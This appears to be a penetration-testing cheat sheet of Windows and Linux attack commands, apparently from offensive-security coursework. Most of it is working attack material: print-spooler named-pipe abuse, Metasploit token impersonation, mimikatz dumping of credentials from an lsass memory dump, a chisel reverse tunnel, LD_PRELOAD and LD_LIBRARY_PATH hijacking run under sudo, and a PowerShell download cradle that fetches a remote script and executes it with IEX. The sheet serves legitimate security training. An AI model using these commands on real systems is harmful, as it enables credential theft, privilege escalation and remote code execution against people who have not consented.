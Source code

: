 # Windows Credential

## SpoolSV Exploitation
```powershell
ls \\dc03\pipe\spoolss

SpoolSample.exe [Host Machine] [Target Pipe] <appsrv01\test>
PrintSpooferNet.exe [Target Pipe] <\\.\pipe\test\pipe\spoolss>
```
## Incognito Impersonation Metasploit
```powershell
#Inside Metasploit 
load incognito
list_tokens -u
impersonate_token corp1\\admin
getuid
```
## MiniDump
```powershell
#MiniDump.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
# Network 

## Chisel Tunnel
```Powershell
#Server Side
./chisel server -p [Port] --reverse

#Client Side
./chisel client [Server IP Address]:[Port] R:[Remote Port]:socks

#Server Side
proxychains4 nmap [IP Address]
```
# Linux Command Injection 

## LD_LIBRARY_PATH Hijacking
Logic: Use LDD to find libgpg-error.so.0 → Use readelf to grep needed variable → Put into "Linux Shellcode Loaders/sharedLibrary_LD_LIBRARY_PATH.c" → Export the library path and Execute
```bash
ldd /usr/bin/top //Find out libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ff5aa0f8000)
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
gcc -Wall -fPIC -z execstack -c -o sharedLibrary_LD_LIBRARY_PATH.o sharedLibrary_LD_LIBRARY_PATH.c
gcc -shared -o sharedLibrary_LD_LIBRARY_PATH.so sharedLibrary_LD_LIBRARY_PATH.o -ldl
export LD_LIBRARY_PATH=/home/offsec/ldlib/
sudo top
```

## LD_PRELOAD
Logic: Use ltrace cp → find out the cp command use getuid → set LD_PRELOAD to hijack the function
```bash
gcc -Wall -fPIC -z execstack -c -o sharedLibrary_LD_PRELOAD.o sharedLibrary_LD_PRELOAD.c
gcc -shared -o sharedLibrary_LD_PRELOAD.so sharedLibrary_LD_PRELOAD.o -ldl
export LD_PRELOAD=/home/offsec/evil_geteuid.so
```

# MSF Console

## Payload Generation
```bash

```

## Post-exploitation
```powershell
execute -H -f notepad
migrate

##Download Host Recon
(new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX

## Check RunasPPL (If 1 -> Enabled)
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```
